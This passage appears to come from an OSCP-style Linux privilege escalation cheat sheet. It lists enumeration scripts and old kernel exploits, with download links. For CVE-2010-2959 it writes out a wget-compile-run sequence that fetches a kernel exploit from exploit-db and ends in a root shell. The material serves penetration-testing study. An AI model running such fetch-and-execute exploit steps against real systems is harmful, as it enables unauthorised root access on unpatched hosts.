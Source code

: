 *   There are a few scripts that can automate the linux enumeration process:

    *   Google is my favorite Linux Kernel exploitation search tool. Many of these automated checkers are missing important kernel exploits which can create a very frustrating blindspot during your OSCP course.

    *   LinuxPrivChecker.py - My favorite automated linux priv enumeration checker -

        [https://www.securitysift.com/download/linuxprivchecker.py](http://web.archive.org/web/20171113221652/https://www.securitysift.com/download/linuxprivchecker.py)

    *   LinEnum - (Recently Updated)

    [https://github.com/rebootuser/LinEnum](http://web.archive.org/web/20171113221652/https://github.com/rebootuser/LinEnum)

    *   linux-exploit-suggester (Recently Updated)

    [https://github.com/mzet-/linux-exploit-suggester](http://web.archive.org/web/20171113221652/https://github.com/mzet-/linux-exploit-suggester)

    *   Highon.coffee Linux Local Enum - Great enumeration script!

        `wget https://highon.coffee/downloads/linux-local-enum.sh`

    *   Linux Privilege Exploit Suggester (Old has not been updated in years)

    [https://github.com/PenturaLabs/Linux_Exploit_Suggester](http://web.archive.org/web/20171113221652/https://github.com/PenturaLabs/Linux_Exploit_Suggester)

    *   Linux post exploitation enumeration and exploit checking tools

    [https://github.com/reider-roque/linpostexp](http://web.archive.org/web/20171113221652/https://github.com/reider-roque/linpostexp)

Handy Kernel Exploits

*   CVE-2010-2959 - 'CAN BCM' Privilege Escalation - Linux Kernel < 2.6.36-rc1 (Ubuntu 10.04 / 2.6.32)

    [https://www.exploit-db.com/exploits/14814/](http://web.archive.org/web/20171113221652/https://www.exploit-db.com/exploits/14814/)

         wget -O i-can-haz-modharden.c http://www.exploit-db.com/download/14814
         $ gcc i-can-haz-modharden.c -o i-can-haz-modharden
         $ ./i-can-haz-modharden
         [+] launching root shell!
         # id
         uid=0(root) gid=0(root)

*   CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8  
    [https://www.exploit-db.com/exploits/15285/](http://web.archive.org/web/20171113221652/https://www.exploit-db.com/exploits/15285/)

*   CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)  
    [https://git.zx2c4.com/CVE-2012-0056/about/](http://web.archive.org/web/20171113221652/https://git.zx2c4.com/CVE-2012-0056/about/)  
    Linux CVE 2012-0056
